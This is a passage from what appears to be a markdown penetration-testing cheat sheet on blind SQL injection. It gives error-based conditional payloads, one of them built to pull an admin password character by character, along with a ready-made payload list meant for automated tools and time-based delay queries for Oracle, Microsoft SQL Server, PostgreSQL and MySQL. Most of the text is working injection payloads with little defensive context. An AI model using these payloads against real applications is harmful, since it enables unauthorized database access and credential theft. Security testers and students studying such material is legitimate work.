 A full example could be the following:

```text
' AND ({{ payload A payload from above }})={{ else-value 'a }}
```

Something like this is what we are aiming for:

```sql
AND (SELECT CASE WHEN (Username = 'admin' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a'
```

An intruder-friendly payload list could be the following:

```text
' AND (SELECT CASE WHEN (1337=1337) THEN to_char(1/0) ELSE 'ZZZ' END FROM dual)='ZZZ
' AND (SELECT CASE WHEN (1337=7777) THEN to_char(1/0) ELSE 'ZZZ' END FROM dual)='ZZZ
' AND (SELECT CASE WHEN (1337=1337) THEN 1/0 ELSE 'ZZZ' END)='ZZZ
' AND (SELECT CASE WHEN (1337=7777) THEN 1/0 ELSE 'ZZZ' END)='ZZZ
' AND (SELECT CASE WHEN (1337=1337) THEN cast(1/0 as text) ELSE 'ZZZ' END)='ZZZ
' AND (SELECT CASE WHEN (1337=7777) THEN cast(1/0 as text) ELSE 'ZZZ' END)='ZZZ
' AND (SELECT IF(1337=1337,(SELECT table_name FROM information_schema.tables), 'ZZZ'))='ZZZ
' AND (SELECT IF(1337=7777,(SELECT table_name FROM information_schema.tables), 'ZZZ'))='ZZZ
 AND (SELECT CASE WHEN (1337=1337) THEN to_char(1/0) ELSE 9999 END FROM dual)=9999
 AND (SELECT CASE WHEN (1337=7777) THEN to_char(1/0) ELSE 9999 END FROM dual)=9999
 AND (SELECT CASE WHEN (1337=1337) THEN 1/0 ELSE 9999 END)=9999
 AND (SELECT CASE WHEN (1337=7777) THEN 1/0 ELSE 9999 END)=9999
 AND (SELECT CASE WHEN (1337=1337) THEN cast(1/0 as text) ELSE 9999 END)=9999
 AND (SELECT CASE WHEN (1337=7777) THEN cast(1/0 as text) ELSE 9999 END)=9999
 AND (SELECT IF(1337=1337,(SELECT table_name FROM information_schema.tables), 9999))=9999
 AND (SELECT IF(1337=7777,(SELECT table_name FROM information_schema.tables), 9999))=9999
```

### Time-based

If the application handles SQL errors properly, we can trigger time delays conditionally.
We could take exactly the same approach as on previous blind injections, but distinguish results based on the time it takes for the server to send a response.
This would be your typical `sleep` function.

We can abuse this behaviours in different ways.
But the idea is to get one of this _sleep_ functions to execute:

| Database type | Query |
| --- | --- |
| Oracle | `dbms_pipe.receive_message(('a'),10)` |
| Microsoft | `WAITFOR DELAY '0:0:10'` |
| PostgreSQL | `pg_sleep(10)` |
| MySQL | `sleep(10)` |

These are some examples on how you would abuse this condition to retrieve data: 

| Database type | Query |
| --- | --- |
| Oracle | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a' \|\| dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual` |
| Microsoft | `IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'` |
| PostgreSQL | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END` |
| MySQL | `SELECT IF(YOUR-CONDITION-HERE,sleep(10),'a')` |
